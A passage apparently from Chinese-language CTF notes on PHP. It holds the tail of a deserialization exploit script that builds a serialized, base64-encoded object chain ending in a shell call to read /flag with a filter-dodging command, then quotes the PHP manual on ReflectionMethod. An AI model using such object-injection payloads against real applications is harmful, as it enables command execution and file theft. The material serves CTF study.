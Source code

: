 ```plain
        }
    }
}
class register{
    public function checking($username,$password)
    {
        if($username==='admin'&&$password==='admin'){
            die('success register admin');
        }else{
            die('please register admin ');
        }
    }
}
class Open{
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){
            shell($content);
        }else{
            echo file_get_contents($filename.".php");
        }
    }
}
$a=new Game();
$a->username='admin';
$a->password='admin';
$a->register='admin';
$a->file=new Open();
$a->filename='a';
$a->content='n\l /flag';
echo base64_encode(serialize($a));
```

# ReflectionMethod:获取类方法的相关信息

[PHP: ReflectionMethod - Manual](https://www.php.net/manual/zh/class.reflectionmethod)

**ReflectionMethod** 类报告了一个方法的有关信息。可以在 PHP 运行状态中，扩展分析 PHP 程序，导出或提取出关于类、方法、属性、参数等的详细信息，包括注释。这种动态获取的信息以及动态调用对象的方法的功能称为反射 API

类摘要

```plain
class ReflectionMethod extends ReflectionFunctionAbstract {
/* 常量 */
public const int IS_STATIC;
public const int IS_PUBLIC;
public const int IS_PROTECTED;
public const int IS_PRIVATE;
public const int IS_ABSTRACT;
public const int IS_FINAL;
/* 属性 */
public string $class;
/* 继承的属性 */
public string $name;
/* 方法 */
public __construct(object|string $objectOrMethod, string $method)
public __construct(string $classMethod)
public static createFromMethodName(string $method): static
public static export(string $class, string $name, bool $return = false): string
public getClosure(?object $object = null): Closure
public getDeclaringClass(): ReflectionClass
public getModifiers(): int
public getPrototype(): ReflectionMethod
public hasPrototype(): bool
```
